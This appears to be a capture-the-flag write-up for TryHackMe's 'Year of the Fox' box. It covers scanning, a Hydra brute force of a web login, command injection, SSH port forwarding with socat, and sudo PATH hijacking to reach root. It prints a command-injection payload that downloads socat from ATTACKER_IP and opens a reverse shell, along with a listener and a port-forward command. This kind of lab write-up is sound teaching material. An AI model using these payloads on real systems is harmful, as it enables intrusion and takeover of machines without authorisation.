This box is ranked hard difficulty on THM, it involves us brute forcing a webpage login, getting a reverse shell via RCE, port forwarding SSH for a login, and abusing sudo privileges without a secure path to catch a root shell.

_Don’t underestimate the sly old fox..._

## Scanning & Enumeration
To kick it off, I run an Nmap scan to find running services on the given host IP.

```
$sudo nmap -p80,139,445 -sCV 10.65.170.135 -oN fullscan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-24 19:32 CST
Nmap scan report for 10.65.170.135
Host is up (0.041s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2025-12-25T01:33:03
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2025-12-25T01:33:04+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

We only have an Apache HTTP server on port 80 and SMB on ports 139 and 445. Nothing unusual and pretty minimal services running. The webpage prompts a login whenever we visit and the banner grabbed from Nmap shows that we’ll have to guess the password if we want it.

Before I mess around with brute forcing that login or fuzzing endpoints on the web server, I enumerate SMB shares with netexec.





There are a few shares under `lan\: (Guest)` but we don’t have permissions for either, so back to the login panel it is. Running Enum4Linux gives us two local users to work with.



Judging from the Samba shares, we’ll want access to fox’s account but it’s probably safe to say we won’t be brute forcing that. I try Hydra brute force on the web server using rascal as the username and rockyou.txt for the password list and we log in.

The request sends credentials through an authorization header using Basic: (base64 encoded cred) so we’ll have to specify http-head when using hydra.



## Exploitation
Once we sign in, there’s a search bar which looks for local files on the system. However it filters out special characters by default so we’ll have to get creative finding an LFI vulnerability.



An empty search request gives us three text files found on the system.



There’s no way to read them yet, but it’s evident that one of these contains credentials. We can fuzz for endpoints by supplying Ffuf with our Authorization header.



This only gives us /assets, which we don’t have permission to view. I capture a request in Burp Suite to test for command injection which didn’t look promising at first. However, when trying to ping a system, the response hung. I pinged my own system and checked that it went through with Wireshark and we have RCE on the box.

Note: We must use `\” [command] \”` where command is our shell, for our payload as escaping the quotes is the only way to execute special characters.



I tried using netcat, python, and bash shells but couldn’t get anything to land. This made me think that maybe it didn’t have access to them or was blocking the outgoing requests for some reason. Since we have RCE and Socat is my favorite shell, it’s possible to host the binary on our attacking system and grab it via wget with RCE.

[This](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) is a link to a static Socat binary download on GitHub

Here is the final payload for uploading Socat to /tmp, changing execution permissions, and grabbing a shell with it. Remember to setup a python server for the socat binary and a socat listener beforehand.

_Change IP and PORT #s_

Payload:

```
\"; wget -q ATTACKER_IP/socat -O /tmp/socat; chmod +x /tmp/socat /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:PORT; echo\"
```

Listener:

```
socat file:`tty`,raw,echo=0 TCP-L:PORT
```

## Initial Foothold
And there is our shell at last!



Now we can navigate to /var/www and find the first flag on the box. There are also the files we found from the webpage’s search bar in /var/www/files .

## Lateral Movement
I check the other typical routes for privesc which leads to me finding port 22 is listening on localhost. This turns out to be SSH which is kinda strange having it onyl run on 127.0.0.1



We can confirm this by checking sshd_config under /etc/ssh. This also shows that fox is the only user allowed to login via SSH.



This is peculiar as we are trying to reach SSH but don’t have a way on it yet. Then I remembered port forwarding is possible with Socat which we already have on the system.

```
/tmp/socat tcp-listen:1234,reuseaddr,fork tcp:localhost:22
```

Let me break this command down:
- `/tmp/socat`- The binary we’re using to PF
- `tcp-listen:1234`- The port we’re listening on (external SSH)
- `resuseaddr`- Prevents address already in use errors
- `fork`- Socat forks a new process for each incoming connection (multiple clients are able to connect at once)
- `tcp:localhost:22`- The destination where our traffic is forwarded to

Now that we have access to SSH from our attacking machine, I try to use the credentials found in /var/www/files/creds2.txt . This contains an encoded string but the recipe is: From Base32 -> From Base64. This gives us a long string which I thought was a hash or long password but ended up being a dead end.

I brute forced it with Hydra and rockyou.txt and got a successful login as well as a cool custom banner.





Let’s also grab the user.txt flag in the home directory.

## Privilege Escalation
Looking at fox’s samba directory, there are two interesting files, a cipher.txt and creds1.txt



This is relatively easy to crack using CyberChef. The recipe for both is: From Base64 -> From Base32 -> From Hex. This will return us long strings which looked to be hashes, however I couldn’t crack them with rainbow tables and hit a dead end.

Earlier I checked sudo commands and found /shutdown thinking it was a red herring. I transferred it to my attacking machine to be able to use more tools on it. There is no secure path set for sudo commands, so I know that a path variable privesc is possible here.



I tried for a while to find a way to exploit this but it’s just above my skill level as of now so I check other writeups. Using strings on the shutdown binary shows that it calls poweroff with system function



Since there is no secure path, I set /tmp as ours and copy /bin/bash to a /tmp and rename it poweroff. Now when we execute that sudo command it will call this poweroff and a root shell will spawn.



Looking for the last flag had me thinking I was crazy for a second, until using find to see that it was in /home/rascal the whole time.



In hind sight this method wasn’t that hard, I was just unfamiliar with system calls in binaries. Overall this was a pretty difficult box for me, I’m not all that confident with port forwarding and that command injection stumped me for a bit.

I’m loving these ‘Year of the ____’ box’s so thanks to MuirlandOracle for making them. I hope this was helpful to anyone stuck or following along and happy hacking!
